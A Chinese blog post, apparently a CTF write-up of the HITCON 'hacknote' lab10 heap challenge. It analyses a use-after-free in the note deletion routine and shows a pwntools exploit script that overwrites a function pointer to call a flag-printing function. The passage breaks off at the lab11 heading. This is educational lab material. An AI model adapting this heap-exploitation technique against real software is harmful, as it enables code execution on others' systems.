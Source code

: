 ```yaml
---
layout:     post
title: “hitcon pwn writeUp（二）”
subtitle:   "lab10+堆题开始！ "
date: 2019-08-30 15:32:00
author:     "许大仙"
header-img: "img/post-bg-alitrip.jpg"
catalog: true
tags:
    - CTF
---
```


## lab10

学了一段how2heap，这是第一次真正意义上的做堆题。

本题是<u>UAF</u>的利用【触发原因：**free后的指针并未置0**】。

### 一.分析过程

首先checksec看保护机制，<u>32-bit程序</u>：

![保护机制](/img/hitcon2/lab10_1.png)

#### 功能分析

运行一下就能感受到，这是个堆题啊。可进行的操作有

>\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
>
>​       HackNote       
>
>\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
>
> 1. Add note          
> 2. Delete note       
> 3. Print note        
> 4. Exit              
>
>\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

通过IDA反汇编可以得知，首先是根据输入的操作标号，分别调用`del_note()`，`print_note()`，`add_note()`，`exit(0)`函数。

##### 1.add_note

其中count作为note的计数器，notelist是指针数组，通过分析可以知道该指针是一个结构体指针，其中第一个字段`notelist[i]`为函数指针`print_note_content`，第二个字段`notelist[i]+1`为存储内容。

```go
struct note {//第一个字段malloc(8)，分配8B的空间，存储了4B函数指针（函数的首地址）和4B的content首地址
	void (*printnote)();  
	char *content ;       //第二个字段malloc(size)，存储了note的内容，指向堆块的mem地址
};
```

![add note](/img/hitcon2/lab10_3.png)

其中函数指针对应于

```go
int __cdecl print_note_content(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```

##### 2.del_note

这里存在两个造成漏洞的因素：

- 有free指向chunk mem指针和notelist[i]，但是未置为NULL。
  - 也就是`*content`还指向存储内容的chunk，但是这个chunk已经放入bin中。
  - 并没有把`*content`和设置为0x00
  - 同理`* notelist[i]`也没有置为0x00，故绕过了`if(notelist[i])`
- 并没有进行`count--`【故绕过了v1<0&&v1>=count】

综合以上两点，会造成UAF[use after free]漏洞。

![add note](/img/hitcon2/lab10_4.png)

##### 3.print_note

![add note](/img/hitcon2/lab10_5.png)

##### 4.magic

这个函数就直接调用了`cat flag`

#### 攻击思路

函数指针哎！！！还有一个现成的`cat flag`，这显然是想办法利用UAF漏洞将函数指针指向`magic`函数，调用了`print_note`就相当于调用了函数指针指向的函数【magic】，从而实现`cat flag`。

**UAF漏洞的常见效果就是会有两个指向同一个chunk的指针。**

如果我们需要想办法让函数指针不指向`print_note_content`，而是指向`magic()`，那么我们就需要对函数指针的字段进行修改。显然程序本身只有对content的修改，没有对函数指针的修改。

所以我们能想到的是，让<u>noteA的函数指针字段所在的chunk</u>，和<u>noteB的content所在的chunk</u>是**同一个chunk**【利用UAF】。就可以实现对noteB的content写，就是对noteA函数指针的修改。从而调用noteA的函数指针所指向的函数就是调用`magic`。

攻击具体过程为：

- 添加note1，大小为32（不要求是fastbin大小），内容随意
  - 添加一个note，会有两次malloc，得到2个chunk。
  - 一个为8B【实际为（8+4）align 8B = 16B=0x10】
  - 一个为32B【实际为40B=0x28】
- 添加note2，大小为32（不要求是fastbin大小），内容随意
- 添加note3，大小为32（不要求是fastbin大小），内容随意【这一步可以不要，主要是避免和顶块的合并】
- del掉note1
- del掉note2

此时的fast_bin的分布是这样的：

> note2_notelist(8大小)-->-->note1_notelist(8大小)【对齐后16B】
> note2_content(32大小)-->note1_content(32大小**)**

**攻击！**申请note4，size大小为8，内容为magic的函数地址。

- 申请note4的时候首先会申请一个8大小的空间【malloc(8)】作为notelist[4]，这时note2_notelist(8大小)的空间给了这个块。
- 接着再申请size 大小的块作为content，这时note1_notelist(8大小)的空间给了这个块。【此时note4的content所在chunk和note1_notelist所在的chunk为同一个】
  - **但是注意之前的note1、note2、note3的content的大小对齐后，实际大小不等于16，是为了此时分配16B的note4 content时不会被分配到之前的content的bin上，而是分配到notelist的bin上**
  - 将notelist和content的链分开
- 同时向note4 content中写入magic的函数地址，也就相对应向note1_notelist(8大小)写入magic的函数地址
- 对于note1，原本存放puts函数指针的地方被magic函数覆盖了，也就导致了接下来打印note1内容的时候会直接执行magic【调用notelist[1]的第一个字段指向的地址】
- 调用print_note打印note1的内容，执行magic函数【note1在[0,count]的范围内，允许打印】

#### exp

```python
from pwn import *
cn = process("./hacknote")
elf = ELF("./hacknote")

def addNote(size,content):
	cn.recvuntil("Your choice :")
	cn.sendline("1")
	cn.recvuntil("Note size :")
	cn.sendline(size)
	cn.recvuntil("Content :")
	cn.sendline(content)

def delNote(index):
	cn.recvuntil("Your choice :")
	cn.sendline("2")
	cn.recvuntil("Index :")
	cn.sendline(index)


def printNote(index):
	cn.recvuntil("Your choice :")
	cn.sendline("3")
	cn.recvuntil("Index :")
	cn.sendline(index)

addNote("32","note0") #note0
addNote("32","note1") #note1 【不必再add note2了】
delNote("0")
delNote("1")

magic_addr = p32(elf.symbols['magic']) #p32处理后为str类型，p32处理前为int类型
addNote("8",magic_addr) #read note0的函数指针，指向magic
printNote("0")
cn.interactive()
```

![add note](/img/hitcon2/lab10_6.png)

## lab11

